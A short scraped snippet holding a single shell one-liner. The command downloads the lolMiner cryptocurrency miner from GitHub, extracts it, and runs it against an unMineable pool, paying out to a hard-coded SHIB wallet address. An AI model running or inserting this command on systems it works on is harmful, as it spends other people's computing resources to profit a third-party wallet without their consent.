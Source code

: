 wget https://github.com/Lolliedieb/lolMiner-releases/releases/download/1.28/lolMiner_v1.28a_Lin64.tar.gz && tar -xf lolMiner_v1.28a_Lin64.tar.gz && cd 1.28a/ && ./lolMiner --algo ETHASH --pool ethash.unmineable.com:3333 --user SHIB:0x7b73e5819B9Ba975EBfe975107bb8B04bC7b3f53.okhg --ethstratum ETHPROXY 
